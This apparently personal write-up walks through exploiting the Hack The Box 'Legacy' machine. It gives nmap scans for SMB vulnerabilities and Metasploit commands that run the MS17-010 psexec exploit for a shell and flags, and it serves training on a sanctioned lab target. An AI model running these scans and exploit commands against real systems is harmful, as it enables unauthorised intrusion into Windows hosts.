






# Legacy


## Initial Enumeration

Like any other target, we'll start off with a quick port scan to see what we're working with:

```bash
nmap -sV 10.10.10.4
```



Looking at this output it's safe to say SMB is the target here. Let's take a closer look at this service using some NSE scripts:

```bash
nmap -p 139,445 --script=smb-vuln* 10.10.10.4
```



Bingo, now we just have to find ourselves an exploit. In the interest of time, we'll just use metasploit to exploit this vulnerability. I originally intended to show how to do this manually, but due to the older version of windows this box is running, I ran into a lot of issues. for a non-metasploit look at MS17-010 be sure to take a look at my write-up on [blue](https://wiki.jacobshodd.com/writeups/hack-the-box/blue). The first thing we'll do is start our `msfconsole` and validate that this exploit will work on this target:

```
# starting msfconsole
msfconsole

# the following happens inside the console:
use exploit/windows/smb/ms17_010_psexec 
set RHOST 10.10.10.4
check
```



## Exploitation

Exploitation from here on is pretty simple. So simple in fact that it just takes typing one word: `exploit`. While I really prefer to not use metasploit for learning purposes, I can't deny how convenient it makes common exploits like this:



With this we can either grab the flags using meterpreter commands, or spawn a shell with the command `shell`. With this we are able to read the flags:


